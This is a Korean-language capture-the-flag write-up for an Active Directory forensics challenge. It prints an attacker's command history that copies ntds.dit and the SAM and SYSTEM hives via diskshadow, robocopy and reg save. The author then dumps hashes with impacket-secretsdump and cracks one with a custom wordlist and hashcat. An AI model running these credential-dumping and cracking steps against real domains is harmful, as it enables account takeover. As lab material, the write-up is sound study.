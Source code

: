 ![alt text](image.png)<br><br>

이제 공격자가 도메인 관리자 권한을 어떻게 획득했는지를 밝혀낼 차례이다..<br><br>

공격자의 전체 침투 경로를 완전히 추적했음을 증명하려면,<br>
도메인 관리자 계정의 비밀번호를 플래그로 제출하면 된다.<br><br>

제시카(Jessica)의 패스워드 해시를 얻기 위해,<br>
2단계에서 이어서 새롭게 탈취된 계정인 패트릭(Patrick)을 스캔해 보자.<br><br>

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat patrick/Desktop/note_from_jake.txt
If you need anything backed up you can just use my account:

Password: fwa3fe8#FEwef
```

<br><br>

![alt text](1.webp)<br>
cat jake/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt 욜로 가보자<br><br>

![alt text](2.webp)<br>

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat jake/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd C:\Users\Public\Downloads
whoami
cd C:\Users\jake\desktop
whoami /all > whoami.txt
type .\whoami.txt
cd C:\Users\public
cd downloads
diskshadow.exe /s script.txt
diskshadow.exe /s script.txt > shadow.txt
type .\shadow.txt
cp .\shadow.txt C:\Users\jake\desktop\shadow.txt
del shadow.txt
robocopy /b z:\windows\ntds . ntds.dit > robo.txt
type .\robo.txt
dir
del robo.txt
cp ntds.dit C:\Users\jake\downloads
del ntds.dit
cd C:\Users\jake\downloads
dir
reg save hklm\system c:\users\jake\downloads\system.hive
reg save hklm\sam C:\users\jake\downloads\sam.hive
dir
cp * C:\Users\public
del C:\Users\public\ntds.dit
del C:\Users\public\sam.hive
del C:\Users\public\system.hive
runas /User:wolvctf\jessica
runas /User:wolvctf\jessica cmd
```

<br><br>

공격자는 diskshadow를 사용하여 NTDS, SAM 하이브, 그리고 SYSTEM 하이브의 볼륨 섀도 복사본(Volume Shadow Copy) 을 생성한 것으로 보인다.<br>
이제 Impacket 도구를 사용해 해당 파일들에서 비밀번호 등의 비밀 정보(secrets) 를 덤프해 보자.<br><br>

```
impacket-secretsdump -ntds ntds.dit -system system.hive -sam sam.hive LOCAL
```

<br><br>

![alt text](3.webp)<br>
중간에 다음과 같은 구문이 있다.<br>

```
wolvctf.corp\jessica:4107:aad3b435b51404eeaad3b435b51404ee:8fcdcffba18f392df7aa291527290aff:::
```

<br><br>

8fcdcffba18f392df7aa291527290aff 요걸 또 놓칠 수 없다.<br><br>

Members who are part of this group have passwords w then a c then a t and an f, curly bracket left, 'bloodhound*is_cool*' (but all the 'o's are '0's), then a city in all lowercase appended by 3 numbers (secret only you know), right curly bracket<br><br>

Take a word list that has a lot of cities, as such:
https://github.com/kkrypt0nn/wordlists/blob/main/wordlists/security_question_answers/cities.txt<br><br>

wordlist를 수정해보자.<br><br>

```
with open("cities.txt", "r") as file:
    cities = file.readlines()

formatted_cities = []
for city in cities:
    city = "wctf{bl00dh0und_is_c00l_" + city.strip().lower()
    formatted_cities.append(city)

with open("cities_wordlist.txt", "w") as file:
    for formatted_city in formatted_cities:
        file.write(formatted_city + "\n")

print("Formatted cities have been written to cities_wordlist.txt")
```

<br><br>

그 다음에,<br>

```
hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}"
```

<br><br>

```
┌──(kali㉿kali)-[~/ctf/Active]
└─$ hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}"
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i7-1280P, 1424/2913 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.

Started: Wed Mar 19 01:41:52 2025
Stopped: Wed Mar 19 01:41:53 2025

┌──(kali㉿kali)-[~/ctf/Active]
└─$ hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}" --show
8fcdcffba18f392df7aa291527290aff:wctf{bl00dh0und_is_c00l_votuporanga985}
```

<br><br>

최종 플래그는 다음과 같다.<br>
wctf{bl00dh0und_is_c00l_votuporanga985}
